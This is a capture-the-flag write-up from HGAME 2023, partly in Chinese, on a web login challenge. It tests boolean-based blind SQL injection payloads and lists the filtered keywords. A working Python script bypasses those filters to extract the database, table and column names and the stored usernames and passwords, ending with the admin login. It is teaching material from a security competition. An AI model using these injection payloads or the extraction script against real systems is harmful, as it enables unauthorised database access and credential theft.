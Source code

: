 # [HGAME2023]Login To Get My Gift
![](<./img/Pasted image 20230208181804.png>)

```
/login
```

```
Username: testuser
Password: testpassword
```

![](<./img/Pasted image 20230208182845.png>)

```
/index
```

![](<./img/Pasted image 20230208183026.png>)

```
Username: 1'or/**/1#
Password: 
```

```
Success!
```

```
Username: 1'or/**/0^1#
Password: 
```

```
Failed!
```

存在布尔盲注

经过测试，过滤掉了这些东西

```
<space>
=
union
substr
and
mid
```

可以利用`left`和`right`函数的组合实现字符串的截取

```python
from requests import post
from sys import stdout

url = 'http://week-3.hgame.lwsec.cn:30056/login'
data = {'username': '', 'password': ''}

username = "1'or/**/{}>{}#"
password = ''

nth_ascii = 'ascii(right(left({},{}),1))'

success = lambda response: 'Success' in response.text

index = 0
while True:
    index += 1
    left = 0
    right = 127
    while left < right:
        mid = (left + right) // 2
        payload = data.copy()
        payload['username'] = username.format(
            nth_ascii.format('database()', index), mid
        )
        if success(post(url, payload)): # mid < nth_char
            left = mid + 1
        else:
            right = mid
    print(chr(left), end='')
    stdout.flush()
```

```
L0g1NMeeeee...
```

```python
payload['username'] = username.format(
	nth_ascii.format('(select(group_concat(table_name))from(information_schema.tables)where(table_schema)in(database()))', index), mid
)
```

```
User1nf0mAt1onnnnn...
```

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(column_name))from(information_schema.columns)where(table_name)in('User1nf0mAt1on'))", index), mid
)
```

```
id,PAssw0rD,UsErN4meeeee...
```

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(UsErN4me))from(User1nf0mAt1on))", index), mid
)
```

```
hgAmE2023HAppYnEwyEAr,testuserrrrr...
```

2023 happy new year~

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(PAssw0rD))from(User1nf0mAt1on))", index), mid
)
```

```
WeLc0meT0hgAmE2023hAPPySql,testpassworddddd...
```

```
Username: hgAmE2023HAppYnEwyEAr
Password: WeLc0meT0hgAmE2023hAPPySql
```

```
Hello admin!
```

```
/home
```

![](<./img/Pasted image 20230208205128.png>)

#Web #SQL注入 #布尔盲注 #绕过 